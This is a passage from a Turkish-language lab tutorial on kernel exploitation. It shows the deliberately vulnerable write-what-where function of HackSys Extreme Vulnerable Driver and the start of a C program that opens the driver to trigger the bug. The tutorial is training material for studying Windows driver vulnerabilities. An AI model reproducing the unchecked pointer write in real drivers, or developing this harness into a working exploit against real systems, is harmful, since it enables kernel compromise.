 ```c
        // ediyor. Burada ProbeForRead sınadığı adreslerin kullanıcı modunda olmaması durumunda
        // bir istisna fırlatıp zafiyetin oluşmasını engellemiş olacak.
        // 
        ProbeForRead((PVOID)Where, sizeof(PULONG_PTR), (ULONG)__alignof(PULONG_PTR));
        ProbeForRead((PVOID)What, sizeof(PULONG_PTR), (ULONG)__alignof(PULONG_PTR));

        *(Where) = *(What);
#else
        //
        // Güvensiz: İşte tipik bir YNNY zafiyeti. Bunun sebebi nedir? Çok basit
        // kodu yazan arkadaşımız kullanıcı modundan gelen veriye tamamiyle güvenmiş,
        // acaba bu kullanıcı moduna mı yazıyor, çekirdek moduna mı yazıyor diye kontrol
        // etmemiş. E tabi sonucu da ağır olacak...
        //
        *(Where) = *(What);
#endif
    }
    __except (EXCEPTION_EXECUTE_HANDLER) {
        Status = GetExceptionCode();
    }

    return Status;
}
```

## Zafiyetin Tetiklenmesi

Yukarıda öğrendiklerimizle önceki yazdığımız kodları birleştirirsek basitçe şu şekilde zafiyeti tetikleyebiliriz. Burada ben "*nereye*" ve "*ne*" kısımlarına işe yaramaz bir veri veriyorum. Beklediğim şey ise, çalıştığında `TriggerArbitraryOverwrite` fonksiyonu içerisinde bir istisna fırlaması. Çünkü verdiğim değerlerin geçerli bir adres olmadığını biliyorum. O nedenle koddaki istisna işleyici tarafından yakalanması gerekiyor bu durumun. 

Kodumuz şu şekilde:

```c
#include "stdafx.h"
#include <Windows.h>

#define HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE CTL_CODE (FILE_DEVICE_UNKNOWN, 0x802, METHOD_NEITHER, FILE_ANY_ACCESS)

int main()
{
	BOOL Result             = FALSE;
	DWORD Retval            = 0;
	ULONGLONG Veri[2];
	HANDLE hDeviceHandle    = INVALID_HANDLE_VALUE;
	const WCHAR* DeviceName = L"\\\\.\\HacksysExtremeVulnerableDriver";

	printf("*** Cekirdegi Kitliyoruz - YNNY ***\n");

	//
	// Surucuye tutamak al
	//
	hDeviceHandle = CreateFile(
		DeviceName,
		GENERIC_READ | GENERIC_WRITE,
		FILE_SHARE_READ,
		NULL,
		OPEN_EXISTING,
		FILE_ATTRIBUTE_NORMAL,
		NULL);

```

[^1]: Sistemdeki önemli veri yapılarını korumakla görevli bir mekanizma.